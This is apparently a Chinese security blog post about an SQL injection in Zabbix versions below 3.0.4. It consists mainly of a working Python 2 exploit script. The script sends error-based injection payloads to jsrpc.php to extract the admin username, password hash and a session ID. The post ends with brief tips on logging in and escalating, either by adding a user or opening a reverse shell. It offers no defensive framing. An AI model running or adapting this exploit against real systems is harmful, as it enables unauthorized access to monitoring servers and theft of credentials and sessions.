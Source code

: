 ```yaml
---
title: "Zabbix SQL 注入"
date: 2018-04-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['zabbix','sqli']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



zabbix < 3.0.4 SQL Injection Exploit

<!--more-->

登录界面

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485897.jpg)

右键源代码 在 jsLoader.php 后面的为 zabbix 版本号

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485898.jpg)

## EXP

```
# -*- coding: utf-8 -*-

import urllib2
import sys, os
import re

def deteck_Sql():
    payload = "/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception,msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True

def sql_Inject(sql):
    payload = url + "/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]

if __name__ == '__main__':
    print 'Zabbix < 3.0.4 SQLi Exploit'
    print
    if len(sys.argv) != 2:
        print 'usage: ' + os.path.basename(sys.argv[0]) + ' url'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print 'password: %s' % sql_Inject(passwd_sql)
        print 'sessionid: %s' % sql_Inject(session_sql)
    else:
        print 'No SQL injection'
```

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485899.jpg)

登录 用户名 zabbix 或者 admin

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/31/1522485902.jpg)

至于提权

root 权限 直接加用户

非 root 权限 反弹shell